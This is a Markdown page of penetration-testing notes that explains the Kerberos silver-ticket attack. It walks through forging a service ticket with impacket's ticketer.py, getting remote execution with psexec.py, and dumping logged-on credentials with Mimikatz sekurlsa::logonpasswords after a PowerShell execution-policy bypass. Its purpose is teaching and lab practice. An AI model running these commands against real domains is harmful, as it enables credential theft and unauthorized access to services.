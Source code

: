 ## Silver Tickets

An important aspect of Kerberos authentication is the following: the user and group permissions in the service ticket are not verified by the application (in most cases), forcing it to blindly trust the integrity of the ticket. There is a validation option called _Privileged Account Certificate_ (PAC) that allows you to avoid this behavior, but it is not always used (Since 2022 Microsoft has created a security patch to update the PAC structure).

For example, if the attacker were able to authenticate to an IIS server running in the context of a **service account** _iis_service_, the application would determine its permissions only by the _group memberships_ present on the service ticket.

If the attacker had the password (or associated NTLM hash) of the **service account**, he could create his own ticket to access the resource (_iis_service_) with all possible permissions.

This is called a _silver ticket_ and if the SPN is used on multiple servers, this would allow access to each of them.

- Example with svc_mssql: [Proving Grounds machine - Nagoya](https://medium.com/@0xrave/nagoya-proving-grounds-practice-walkthrough-active-directory-bef41999b46f)

In general, three things are needed to create a _silver ticket_:

- **SPN password hash**
- **Domain SID**
- **Target SPN*

Again there are two ways to perform this attack:
1) From kali
2) From windows

### From kali

Using ticketer and psexec:

```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>

export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache 

python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```

### From Windows

Using _Mimikatz_ to get the NTLM hash of the user logged into the _iis_service_ service, mapped to the target SPN:

```bash
powershell -ep bypass

.\mimikatz.exe

privilege::debug
sekurlsa::logonpasswords
```
